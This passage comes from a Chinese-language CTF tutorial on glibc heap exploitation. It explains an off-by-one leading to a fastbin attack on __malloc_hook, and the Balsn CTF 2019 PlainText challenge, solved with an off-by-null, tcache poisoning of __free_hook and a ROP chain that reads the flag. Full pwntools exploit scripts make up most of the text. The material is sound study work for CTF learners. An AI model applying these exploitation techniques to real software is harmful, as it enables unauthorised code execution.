|      X     |  <-- 任意分配後 chunk 防止 top 合併
+------------+
```

由於分配過程還有一些額外結構（結構體本身的分配和 `getline`），我們需要先釋放出足夠的 fastbin chunk 來避免結構體本身的分配對我們的過程造成影響。

在此之後，依次釋放掉 5, 3, 1, 之後利用 `del` 輸入時候的 `getline`，將 3 填滿，造成 `off-by-one`，之後將 4 `free` 掉進行合併（僞造 `prev_size`），這樣就有了一個交叉的堆結構了。

之後的過程就更加簡單了，首先分配 1 的大小，使得 libc 地址被寫到 2 裏，就可以泄露出地址，然後將 5 分配出來，寫入需要的內容，就可以 fastbin attack 了。

### exploit

由於原 libc 爲 2.19 版本，加載有一些奇怪的問題，較爲麻煩，而本題沒有用到 2.19 獨有的特性，所以我採用了 2.23 的 libc 進行調試，版本爲 ubuntu10。

```python
#! /usr/bin/env python2
# -*- coding: utf-8 -*-
# vim:fenc=utf-8

import sys
import os
import os.path
from pwn import *
context(os='linux', arch='amd64', log_level='debug')

if len(sys.argv) > 2:
    DEBUG = 0
    HOST = sys.argv[1]
    PORT = int(sys.argv[2])

    p = remote(HOST, PORT)
else:
    DEBUG = 1
    if len(sys.argv) == 2:
        PATH = sys.argv[1]

    p = process(PATH)


libc = ELF('/lib/x86_64-linux-gnu/libc.so.6') # ubuntu 16.04

def cmd(command_num):
    p.recvuntil('command:')
    p.sendline(str(command_num))


def put(key, size, data):
    cmd('PUT')
    p.recvuntil('key:')
    p.sendline(key)

    p.recvuntil('size:')
    p.sendline(str(size))
    p.recvuntil('data:')
    if len(data) < size:
        p.send(data.ljust(size, '\x00'))
    else:
        p.send(data)


def delete(key):
    cmd('DEL')
    p.recvuntil('key:')
    p.sendline(key)


def get(key):
    cmd('GET')
    p.recvuntil('key:')
    p.sendline(key)
    p.recvuntil('[')
    num = int(p.recvuntil(' bytes').strip(' bytes'))
    p.recvuntil(':\n')
    return p.recv(num)


def main():
    # avoid complicity of structure malloc
    for i in range(10):
        put(str(i), 0x38, str(i))
        
    for i in range(10):
        delete(str(i))

    # allocate what we want in order
    put('1', 0x200, '1')
    put('2', 0x50, '2')
    put('5', 0x68, '6')
    put('3', 0x1f8, '3')
    put('4', 0xf0, '4')
    put('defense', 0x400, 'defense-data')


    # free those need to be freed
    delete('5')
    delete('3')
    delete('1')

    delete('a' * 0x1f0 + p64(0x4e0))

    delete('4')

    put('0x200', 0x200, 'fillup')
    put('0x200 fillup', 0x200, 'fillup again')

    libc_leak = u64(get('2')[:6].ljust(8, '\x00'))
    p.info('libc leak: 0x%x' % libc_leak)
    
    libc_base = libc_leak - 0x3c4b78

    p.info('libc_base: 0x%x' % libc_base)

    put('fastatk', 0x100, 'a' * 0x58 + p64(0x71) + p64(libc_base + libc.symbols['__malloc_hook'] - 0x10 + 5 - 8))
    put('prepare', 0x68, 'prepare data')

    one_gadget = libc_base + 0x4526a
    put('attack', 0x68, 'a' * 3 + p64(one_gadget))

    p.sendline('DEL') # malloc(8) triggers one_gadget

    p.interactive()

if __name__ == '__main__':
    main()
```
## 實例 3 : Balsn_CTF_2019-PlainText
### 漏洞利用分析

程序的流程比較清晰簡單，在 add 函數中，存在明顯的 off-by-null。



而 free 中對被 free 的指針進行了置空，導致無法直接 show，而程序對我們的輸入末尾附加 `\x00`，也無法使用釋放再申請的方法，leak 比較困難。

分析結束。接下來進行利用

爲了調試方便，建議先關閉 aslr。

一開始的時候 bin 中非常的雜亂，先把這些亂七八糟的東西申請出來

```python
for i in range(16):
    add(0x10,'fill')

for i in range(16):
    add(0x60,'fill')

for i in range(9):
    add(0x70,'fill')

for i in range(5):
    add(0xC0,'fill')

for i in range(2):
    add(0xE0,'fill')

add(0x170,'fill')
add(0x190,'fill')
# 49
```

由於我們部分覆寫的時候會被附加一個 `\x00`，所以需要調整堆地址，爲了調試方便，我選擇這樣調整，具體原因馬上說

```python
add(0x2A50,'addralign') # 50
```

然後進行堆佈局

首先申請出一個較大的堆塊，釋放掉，再申請一個更大的堆塊，讓被釋放的堆塊進入 large bin

```python
add(0xFF8,'large bin') # 51
add(0x18,'protect') # 52


delete(51)
add(0x2000,'push to large bin') # 51
```

由於之前進行的堆地址調整，在我的 gdb 中，該 large bin 的低地址的低 16 位就都是 0 了（這也就是之前堆地址調整時那樣調整的原因。當然這只是在調試的情況下，實際打的時候只有低 12 位能保證爲零，需要爆破 4 位，概率 1/16）。

然後進行這樣的佈局

```python
add(0x28,p64(0) + p64(0x241) + '\x28') # 53 fd->bk : 0xA0 - 0x18

add(0x28,'pass-loss control') # 54
add(0xF8,'pass') # 55
add(0x28,'pass') # 56
add(0x28,'pass') # 57
add(0x28,'pass') # 58
add(0x28,'pass') # 59
add(0x28,'pass-loss control') # 60
add(0x4F8,'to be off-by-null') # 61
```




形成的效果就是上面這張圖的樣子。其中 chunk A 完成了對 fake chunk 的 size 和 fd，bk 指針的佈局。其中 fd 將指向 `&chunk_B - 0x18`並且破壞了 largebin 的 fd，之後我們會修復這個 fd 並使之指向 fake chunk。

由於 fake chunk 的 fd 指向 `&chunk_B - 0x18`，我們希望 chunk B 的 fd 指向 fake chunk。所以我們需要先把它 free 掉再申請回來，然後部分覆寫 fd 來實現。

chunk E 存在的意義是抬高堆地址，使之後 leak 堆地址的時候可以全部輸出。

在 chunk E 和 chunk C 中夾了一些 chunk，這些 chunk 會被 overlapping，便於之後繼續利用了，建議多夾一些，免得後來發現不夠用。

chunk C 未來會用來對 chunk D off-by-null，然後 free chunk D 的時候就可以向地址和並了。

---

fake chunk 的 size 已經被修改好，我們不希望在修復 large bin 的 fd 的同時把這個 size 破壞掉，所以必須把 chunk A free 到 fastbin 中。也需要把 chunk B 和 chunk C free 掉，並且希望 chunk B 的 fd 指針指向一個堆地址，部分覆寫後就可以使之指向 fake_chunk 了。

```python
for i in range(7):
    add(0x28,'tcache')
for i in range(7):
    delete(61 + 1 + i)

delete(54)
delete(60)
delete(53)

for i in range(7):
    add(0x28,'tcache')

# 53,54,60,62,63,64,65

add(0x28,'\x10') # 53->66
## stashed ##
add(0x28,'\x10') # 54->67
add(0x28,'a' * 0x20 + p64(0x240)) # 60->68
delete(61)
```

就是這樣，先把 Tcache 填滿，然後依次 free chunk B C A，再把 Tcache 清空，然後申請回 chunk A，部分覆寫，使 fd 指向 fake_chunk。

然後由於 Tcache 的 stash 機制，chunk B C 進入 Tcache，再申請回來的就是 chunk B，部分覆寫使 fd 指向 fake_chunk。

然後申請回 chunk C，進行 off-by-null。

free chunk D，成功實現 chunk overlapping。

然後進行 leak，需要把堆地址和 libc 地址都 leak 出來，leak 的方法有許多，這裏提供一種（這種方法肯定不是最好的方法，但是可以完成 leak 就行）

```
add(0x140,'pass') # 61
show(56)
libc_base = u64(sh.recv(6).ljust(0x8,'\x00')) - libc.sym["__malloc_hook"] - 0x10 - 0x60
log.success("libc_base:" + hex(libc_base))
__free_hook_addr = libc_base + libc.sym["__free_hook"]

add(0x28,'pass') # 69<-56
add(0x28,'pass') # 70<-57
delete(70)
delete(69)
show(56)
heap_base = u64(sh.recv(6).ljust(0x8,'\x00')) - 0x1A0
log.success("heap_base:" + hex(heap_base))
```

然後進行 Tcache poisoning（這裏我被卡了一小會，主要原因是一直想着通過 double free 來實現，這種想法確實挺蠢的，需要注意，Tcache poisoning 的利用只需要控制 next 指針就可以了，double free 往往是實現控制的方法，而不是必須，在本題有更好的方法，就不需要 double free 了）。

```
add(0x28,p64(0) * 2) # 69<-56
add(0x28,p64(0) * 2) # 70<-57
add(0x28,p64(0) * 2) # 71<-58
delete(68)
add(0x60,p64(0) * 5 + p64(0x31) + p64(__free_hook_addr)) # 68
add(0x28,'pass') # 72
## alloc to __free_hook ##
magic_gadget = libc_base + 0x12be97
add(0x28,p64(magic_gadget)) # 73
```

因爲有 chunk overlapping，所以其實挺容易控制 next 指針的，比如通過上面這樣的方法就可以分配到 __free_hook 了。

到這裏就結束了堆上的利用，之後需要進行白名單繞過，具體方法這裏不再贅述，請見《沙箱逃逸》目錄下的《C 沙盒逃逸》

### exp

```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *
context.terminal = ["tmux","splitw","-h"]
context.log_level = 'debug'

#sh = process("./note")
#libc = ELF("/glibc/2.29/64/lib/libc.so.6")
sh = process("./note-re")
libc = ELF("./libc-2.29.so")

def add(size,payload):
    sh.sendlineafter("Choice: ",'1')
    sh.sendlineafter("Size: ",str(size))
    sh.sendafter("Content: ",payload)

def delete(index):
    sh.sendlineafter("Choice: ",'2')
    sh.sendlineafter("Idx: ",str(index))

def show(index):
    sh.sendlineafter("Choice: ",'3')
    sh.sendlineafter("Idx: ",str(index))

for i in range(16):
    add(0x10,'fill')

for i in range(16):
    add(0x60,'fill')

for i in range(9):
    add(0x70,'fill')

for i in range(5):
    add(0xC0,'fill')

for i in range(2):
    add(0xE0,'fill')

add(0x170,'fill')
add(0x190,'fill')
# 49

add(0x2A50,'addralign') # 50
#add(0x4A50,'addralign') # 50

add(0xFF8,'large bin') # 51
add(0x18,'protect') # 52


delete(51)
add(0x2000,'push to large bin') # 51
add(0x28,p64(0) + p64(0x241) + '\x28') # 53 fd->bk : 0xA0 - 0x18

add(0x28,'pass-loss control') # 54
add(0xF8,'pass') # 55
add(0x28,'pass') # 56
add(0x28,'pass') # 57
add(0x28,'pass') # 58
add(0x28,'pass') # 59
add(0x28,'pass-loss control') # 60
add(0x4F8,'to be off-by-null') # 61

for i in range(7):
    add(0x28,'tcache')
for i in range(7):
    delete(61 + 1 + i)

delete(54)
delete(60)
delete(53)

for i in range(7):
    add(0x28,'tcache')

# 53,54,60,62,63,64,65

add(0x28,'\x10') # 53->66
## stashed ##
add(0x28,'\x10') # 54->67
add(0x28,'a' * 0x20 + p64(0x240)) # 60->68
delete(61)

add(0x140,'pass') # 61
show(56)
libc_base = u64(sh.recv(6).ljust(0x8,'\x00')) - libc.sym["__malloc_hook"] - 0x10 - 0x60
log.success("libc_base:" + hex(libc_base))
__free_hook_addr = libc_base + libc.sym["__free_hook"]

add(0x28,'pass') # 69<-56
add(0x28,'pass') # 70<-57
delete(70)
delete(69)
show(56)
heap_base = u64(sh.recv(6).ljust(0x8,'\x00')) - 0x1A0
log.success("heap_base:" + hex(heap_base))

add(0x28,p64(0) * 2) # 69<-56
add(0x28,p64(0) * 2) # 70<-57
add(0x28,p64(0) * 2) # 71<-58
delete(68)
add(0x60,p64(0) * 5 + p64(0x31) + p64(__free_hook_addr)) # 68
add(0x28,'pass') # 72
## alloc to __free_hook ##
magic_gadget = libc_base + 0x12be97
add(0x28,p64(magic_gadget)) # 73

pop_rdi_ret = libc_base + 0x26542
pop_rsi_ret = libc_base + 0x26f9e
pop_rdx_ret = libc_base + 0x12bda6
syscall_ret = libc_base + 0xcf6c5
pop_rax_ret = libc_base + 0x47cf8
ret = libc_base + 0xc18ff

payload_addr = heap_base + 0x270
str_flag_addr = heap_base + 0x270 + 5 * 0x8 + 0xB8
rw_addr = heap_base 

payload = p64(libc_base + 0x55E35) # rax
payload += p64(payload_addr - 0xA0 + 0x10) # rdx
payload += p64(payload_addr + 0x28)
payload += p64(ret)
payload += ''.ljust(0x8,'\x00')

rop_chain = ''
rop_chain += p64(pop_rdi_ret) + p64(str_flag_addr) # name = "./flag"
rop_chain += p64(pop_rsi_ret) + p64(0)
rop_chain += p64(pop_rdx_ret) + p64(0)
rop_chain += p64(pop_rax_ret) + p64(2) + p64(syscall_ret) # sys_open
rop_chain += p64(pop_rdi_ret) + p64(3) # fd = 3
rop_chain += p64(pop_rsi_ret) + p64(rw_addr) # buf
rop_chain += p64(pop_rdx_ret) + p64(0x100) # len
rop_chain += p64(libc_base + libc.symbols["read"])
rop_chain += p64(pop_rdi_ret) + p64(1) # fd = 1
rop_chain += p64(pop_rsi_ret) + p64(rw_addr) # buf
rop_chain += p64(pop_rdx_ret) + p64(0x100) # len
rop_chain += p64(libc_base + libc.symbols["write"])

payload += rop_chain
payload += './flag\x00'
add(len(payload) + 0x10,payload) # 74
#gdb.attach(proc.pidof(sh)[0])
delete(74)

sh.interactive()
```
